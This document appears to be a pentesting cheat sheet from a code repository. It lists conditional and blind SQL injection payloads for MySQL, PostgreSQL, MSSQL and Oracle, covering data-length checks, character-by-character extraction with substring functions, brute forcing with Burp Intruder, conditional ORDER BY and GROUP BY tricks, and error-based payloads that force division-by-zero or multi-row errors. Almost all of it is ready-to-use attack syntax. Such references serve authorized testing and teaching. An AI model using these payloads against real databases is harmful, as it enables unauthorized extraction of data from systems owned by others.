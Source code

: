 ### SQLI conditional payloads
- Proof of concept:
```SQL
1=0
'1'='0' -- Don't comment the rest of the query, just don't close the last quote to keep everything from an original query.
```
- Get data length:
```SQL
length((<select_payload>))>1 -- MySQL/PostgreSQL/Oracle
len((<select_payload))>1 -- MSSQL
```
- Get data characters one by one:
```SQL
substring((<select_payload>),1,1) = 'a' -- MySQL/PostgreSQL/MSSQL
substr((<select_payload>),1,1) = 'a' -- Oracle
```
- Compare to this data set _(or `char(32...126)` to bypass filters)_ using **Burp Intruder Brute Forcer**:
```
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
``` 
- Usecases _(conditional payloads can be used in different conditional SQL injection types or by themselves in these cases)_:
```SQL
SELECT column FROM table WHERE another_column = 'correct_value' AND <conditional_payload> -- SELECT WHERE
SELECT column FROM table WHERE <conditional_payload> -- SELECT TABLE NAME
SELECT column FROM table GROUP BY column HAVING column = 'any_value' AND <conditional_payload> -- SELECT HAVING
UPDATE table SET column = 'value' WHERE another_column = 'any_value' AND <conditional_payload> -- UPDATE WHERE
```

### SQLI conditional ordering and grouping
- In `SELECT ORDER BY` and `SELECT GROUP BY` locations conditional payloads can be used to change ordering/grouping:
```SQL
(if((<conditional_payload>), <column_name1>, <column_name2>)) -- MySQL
(CASE WHEN(<conditional_payload>) THEN <column_name1> ELSE <column_name2> END) -- PostgreSQL/MSSQL/Oracle
```

### SQLI conditional error
- Get some data:
```SQL
(if((<conditional_payload>),(SELECT table_name FROM information_schema.tables),TRUE)) -- MySQL. Multiple return value error.
(CASE WHEN(<conditional_payload>) THEN cast(1/0 as VARCHAR) ELSE chr(97) END)=chr(97) -- PostgreSQL
(CASE WHEN(<conditional_payload>) THEN cast(1/0 as VARCHAR) ELSE char(97) END)=char(97) -- MSSQL
(CASE WHEN(<conditional_payload>) THEN to_char(1/0) ELSE chr(97) END)=chr(97) -- Oracle
```
- Usecases:
```SQL
SELECT column FROM table WHERE another_column = 'correct_value' AND <conditional_error> -- SELECT WHERE
SELECT column FROM table WHERE <conditional_error> -- SELECT TABLE NAME
SELECT column FROM table GROUP BY column HAVING column = 'any_value' AND <conditional_error> -- SELECT HAVING

UPDATE table SET column = 'value' WHERE another_column = 'any_value' AND <conditional_error> -- UPDATE WHERE
```
